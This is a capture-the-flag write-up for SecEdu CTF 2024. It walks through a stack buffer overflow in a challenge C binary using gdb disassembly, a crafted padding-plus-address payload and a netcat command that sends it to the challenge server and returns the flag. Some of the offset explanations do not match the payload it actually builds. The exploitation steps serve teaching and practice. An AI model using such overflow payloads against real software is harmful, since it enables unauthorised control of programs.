 ```yaml
---
title: "Overflowing with files"
description: "They also seem to have quite an interesting top-secret file delivery system, developed in C of all things?! Find a way to get the contents of the top-secret document.\n\n`nc chals.secedu.site 5001`"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & finnersio"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek12024#overflowing-with-files)

From the challenge description we know the program was written in C, and we can analyse the program in `gdb`.

Running the program we see the top-secret document is at the memory address `0x4011f6`.
```bash
./chal
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response
```

Loading up gdb, we can run `info functions` to see what symbols are left in the binary. We see among others a function called `win` at `0x4011f6`, we know where we need to get to.
```c
gdb chal
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
...
0x00000000004011f6  win
0x0000000000401268  exiting
0x0000000000401282  main
...
```

Taking a look at the main function, there's not much we care about until towards the end:

```c
# Note I am using intel disassembly flavor, not AT&T
0x00000000004012f6 <+116>:	call   0x401100 <__isoc99_scanf@plt>
0x00000000004012fb <+121>:	mov    rax,QWORD PTR [rbp-0x10]
0x00000000004012ff <+125>:	mov    rsi,rax
0x0000000000401302 <+128>:	lea    rax,[rip+0xe37]        # 0x402140
0x0000000000401309 <+135>:	mov    rdi,rax
0x000000000040130c <+138>:	mov    eax,0x0
0x0000000000401311 <+143>:	call   0x4010c0 <printf@plt>
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040131a <+152>:	call   rax
0x000000000040131c <+154>:	mov    eax,0x0
0x0000000000401321 <+159>:	leave
0x0000000000401322 <+160>:	ret
```

We see a call to `scanf` to capture the user's input, and another call to `prinf`.  But we also see the return address (`rax`) being assigned to a value offset of the base pointer (`rbp`).

```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Let's see how our data is being stored in the program, we will set a breakpoint at the statement above.

```c
(gdb) break *main+152
Breakpoint 1 at 0x40131a
(gdb) r
Starting program: 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response: AAAAAAAAAAAAAAAAAAA
Okay, you know what? Lets go to 0x401268!!
 Andddd.... here we go!


Breakpoint 1, 0x000000000040131a in main ()
```

Looking at the stack pointer, we see our input and we know it is being stored on the stack. Let's see if we can overflow the buffer and change `rax` to the secret-document address.
```c
(gdb) x/s $rsp
0x7fffffffe090:	'A' <repeats 19 times>
```

From the below we know an 8 byte value (`QWORD PTR`) is being loaded into `rax` from `rbp-0x16` (`rbp - 16 bytes`).
```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Craft a payload 16 bytes long with an extra byte at the end for the new address for `rax`.

```bash
python3 -c 'print("a"*8*16 + "A"*8)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
```

Run the program again.
```c
Breakpoint 1, 0x000000000040131a in main ()
(gdb) x/s $rsp
0x7fffffffe090:	'a' <repeats 128 times>, "AAAAAAAA"
(gdb) p/x $rax
$2 = 0x4141414141414141
```

It worked! `rax` is all "A" (0x41 in hex). Let's make the payload the actual address of the secret document. Unfortunately, `0x4011f6` isn't all printable characters so we will need a file for our payload. 

```bash
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x11\x40' > payload.txt
```

We will use `echo` to save the non-printable characters to a file and load the address in reverse order as we are on a little-endian system.

Run the program with the file as input:
```c
(gdb) r < payload.txt
...
Response: Okay, you know what? Lets go to 0x4011f6!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
```

We have the secret file, now to do it for real with netcat. 

```
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: s
Okay, you know what? Lets go to 0x40122b!!
 Andddd.... here we go!

Nothing found here, but thanks for stopping by!
```

We know the program, and we know the buffer. This time we are going to `0x4011bd`. Make a new payload, and send the file with netcat along with the `-q` to quit the transmission after one second.

```bash
cat payload.txt | nc -q 1 chals.secedu.site 5001
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: Okay, you know what? Lets go to 0x4011bd!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}
```

Flag: `SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}`